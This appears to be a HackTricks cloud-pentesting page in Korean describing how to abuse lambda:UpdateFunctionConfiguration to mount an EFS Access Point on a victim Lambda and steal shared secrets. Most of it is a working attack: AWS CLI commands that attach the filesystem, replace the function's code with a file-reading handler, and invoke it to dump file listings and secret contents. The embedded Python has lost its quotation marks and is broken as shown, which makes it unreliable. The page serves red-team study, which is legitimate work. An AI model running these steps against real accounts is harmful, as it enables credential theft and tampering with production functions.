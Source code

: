# AWS Lambda – EFS Mount Injection via UpdateFunctionConfiguration (Data Theft)

{{#include ../../../../banners/hacktricks-training.md}}

`lambda:UpdateFunctionConfiguration`을 악용해 기존 EFS Access Point를 Lambda에 연결한 다음, 마운트된 경로에서 파일을 나열/읽기하는 단순 코드를 배포하여 해당 함수가 이전에는 접근할 수 없었던 공유된 비밀/구성 정보를 탈취합니다.

## 요구 사항
- 피해자 계정/주체에 필요한 권한:
- `lambda:GetFunctionConfiguration`
- `lambda:ListFunctions` (함수 검색용)
- `lambda:UpdateFunctionConfiguration`
- `lambda:UpdateFunctionCode`
- `lambda:InvokeFunction`
- `efs:DescribeMountTargets` (마운트 대상 존재 확인용)
- 환경 가정:
- 대상 Lambda가 VPC 사용 설정되어 있고 해당 서브넷/SGs가 TCP/2049를 통해 EFS 마운트 대상 SG에 도달할 수 있어야 합니다 (예: 역할에 AWSLambdaVPCAccessExecutionRole이 있고 VPC 라우팅이 이를 허용하는 경우).
- EFS Access Point는 동일한 VPC에 있어야 하며 Lambda 서브넷의 AZs에 마운트 대상이 있어야 합니다.

## 공격
- 변수
```
REGION=us-east-1
TARGET_FN=<target-lambda-name>
EFS_AP_ARN=<efs-access-point-arn>
```
1) EFS Access Point를 Lambda에 연결
```
aws lambda update-function-configuration \
--function-name $TARGET_FN \
--file-system-configs Arn=$EFS_AP_ARN,LocalMountPath=/mnt/ht \
--region $REGION
# wait until LastUpdateStatus == Successful
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done
```
2) 코드를 간단한 reader로 덮어써 파일을 나열하고 후보 secret/config 파일의 처음 200바이트를 확인한다
```
cat > reader.py <<PY
import os, json
BASE=/mnt/ht

def lambda_handler(e, c):
out={ls:[],peek:None}
try:
for root, dirs, files in os.walk(BASE):
for f in files:
p=os.path.join(root,f)
out[ls].append(p)
cand = next((p for p in out[ls] if secret in p.lower() or config in p.lower()), None)
if cand:
with open(cand,rb) as fh:
out[peek] = fh.read(200).decode(utf-8,ignore)
except Exception as ex:
out[err]=str(ex)
return out
PY
zip reader.zip reader.py
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://reader.zip --region $REGION
# If the original handler was different, set it to reader.lambda_handler
aws lambda update-function-configuration --function-name $TARGET_FN --handler reader.lambda_handler --region $REGION
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done
```
3) 호출하고 데이터 가져오기
```
aws lambda invoke --function-name $TARGET_FN /tmp/efs-out.json --region $REGION >/dev/null
cat /tmp/efs-out.json
```
출력에는 /mnt/ht 아래의 디렉터리 목록과 EFS에서 선택한 비밀/설정 파일의 간단한 미리보기가 포함되어야 합니다.

## Impact
나열된 권한을 가진 공격자는 임의의 in-VPC EFS Access Points를 피해자 Lambda 함수에 마운트하여 해당 함수에서 이전에는 접근할 수 없었던 EFS에 저장된 공유 구성 및 비밀을 읽고 exfiltrate할 수 있습니다.

## Cleanup
```
aws lambda update-function-configuration --function-name $TARGET_FN --file-system-configs [] --region $REGION || true
```
{{#include ../../../../banners/hacktricks-training.md}}
